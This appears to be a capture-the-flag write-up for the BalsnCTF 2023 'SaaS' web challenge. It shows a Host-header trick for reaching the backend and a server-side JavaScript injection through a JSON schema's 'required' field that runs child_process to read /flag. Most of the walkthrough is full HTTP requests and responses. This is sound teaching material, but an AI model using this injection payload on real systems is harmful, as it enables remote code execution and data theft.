 ### SaaS - balsnctf 2023 - web

![Challenge Description](2023-10-08_19-10.png "Challenge Description")

### Running the challenge locally

```
docker-compose up -d
```

You can now access the challenge at http://localhost:8787/

### Writeup

Looking at default.conf we have the following:
```
server {
    listen 80 default_server;
    return 404;
}
server {
    server_name *.saas;
    if ($http_host != "easy++++++") { return 403 ;}
    location ~ {
      proxy_pass http://backend:3000;
    }
}
```

To access the backend server we need to make the server name end in .saas and the host be easy++++++. To do this we can send the following HTTP request to the server:
```
GET http://.saas/ HTTP/1.1
Host: easy++++++
[...]
```
The server now responds with the following:
```
HTTP/1.1 200 OK
[...]

{"pong":"hi"}
```

Now taking a look at index.js we have two endpoints to explore, /register and /whowilldothis/:uid . With register we can provide a json validation schema that later will be used at /whowilldothis/:uid . After researching a bit about fast-json-stringify-compiler I've stumbled uppon the following report:
- https://hackerone.com/reports/532667
  
So I went for the Server Side JavaScript Code Injection. I've used the required property of the schema so we could get the result of the code injection reflected in the error. To exploit this vulnerability first we need to upload the malicious schema using the register endpoit:
```
POST http://.saas/register HTTP/1.1
Host: easy++++++
[...]
Content-Type: application/json

{
 "type": "object",
 "properties": {
   "Hello": {
     "type": "string"
    }
  },
 "required": ["'+(function(){return process.mainModule.require('child_process').spawnSync('cat', ['/flag']).stdout;})()+'"]
}
```
The server sends the following response:
```
HTTP/1.1 200 OK
[...]

{"route":"/whowilldothis/410efeff-b5d4-466c-9e6b-93407e6a4774"}
```
Now we can access this endpoint and retrieve the flag:
```
GET http://.saas/whowilldothis/410efeff-b5d4-466c-9e6b-93407e6a4774 HTTP/1.1
Host: easy++++++
[...]
```
The server responded with the following:
```
HTTP/1.1 500 Internal Server Error
[...]

{"statusCode":500,"error":"Internal Server Error","message":"\"BALSN{N0t_R3al1y_aN_u3s_Ca53}\n\" is required!"}
```